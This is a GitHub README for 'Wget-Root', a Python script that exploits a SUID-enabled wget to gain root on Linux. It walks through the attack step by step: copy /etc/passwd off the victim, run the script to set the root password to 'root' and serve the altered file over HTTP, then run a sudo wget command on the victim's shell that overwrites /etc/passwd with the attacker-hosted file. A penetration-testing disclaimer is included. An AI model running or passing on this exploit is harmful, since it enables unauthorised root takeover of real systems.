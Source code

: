 # Wget-Root

This is a python script that exploits wget when being set with a SUID bit, and overwrites the root password. <br>
**⚠️ Warning:** This script is completly for penetration testing purposes. I do not claim any responsibility if you use it for offensive activities.

# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file) <br>
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port> --interface <network interface/ip>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.<br>
Run the command `sudo wget http://<host ip>:<webserver port>/passwd -O /etc/passwd` on the victims shell to overwrite the passwd file.<br>
**Congratulations!** 
Now switch users to `root` with the password `root`

# Updates
* [ ] Make the code cleaner by moving the TCP Server and custom Handler Class outside the main function

![showcase](https://i.imgur.com/1bVzFk8.png)

